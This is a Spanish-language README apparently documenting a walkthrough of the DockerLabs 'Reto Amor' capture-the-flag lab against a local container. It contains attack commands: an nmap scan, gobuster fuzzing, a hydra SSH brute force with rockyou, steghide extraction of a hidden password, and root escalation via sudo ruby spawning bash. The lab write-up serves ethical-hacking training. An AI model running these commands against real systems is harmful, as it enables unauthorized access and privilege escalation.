 **Mayor DIEGO A. ESMERAL M.**

# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

---

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

---

## 🔧 Herramientas Empleadas

| Herramienta | Definición | Funcionalidad | Casos de uso |
|------------|------------|---------------|--------------|
| **Docker** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **scp** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **netdiscover** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **nmap** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **gobuster** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **hydra** | Ataques de fuerza bruta contra servicios. | Prueba múltiples contraseñas/usuarios. | Auditoría de credenciales débiles. |
| **steghide** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **base64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

---

## 🛠️ Desglose de Comandos Utilizados

```bash
# 1. Transferir carpeta
scp -r amor kali@192.168.1.12:/home/kali/Documents/

# 2. Instalar Docker (si aplica)
sudo apt install docker.io

# 3. Desplegar máquina
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar

# 4. Obtener interfaz de red
ip add

# 5. Escaneo de red en docker0
sudo netdiscover -i docker0 -r 172.17.0.0/24

# 6. Escanear puertos abiertos
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2

# 7. Fuzzing web
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 8. Fuerza bruta SSH
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10

# 9. Acceso por SSH
ssh carlota@172.17.0.2

# 10. Buscar imagen
cd /carlota/Desktop/fotos/vacaciones

# 11. Descargar imagen a Kali
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor



# 12. Extraer contenido oculto
steghide extract -sf imagen.jpg

# 13. Decodificar mensaje oculto
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

# 14. Escalada de privilegios
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'

✅ Resultado Final
Al finalizar el laboratorio se logra:

Identificar servicios expuestos (22, 80).

Obtener acceso SSH por fuerza bruta.

Detectar archivo con datos esteganográficos.

Decodificar contraseña y escalar privilegios a root.

DIAGRAMA DE FLUJO

![texto](ruta)

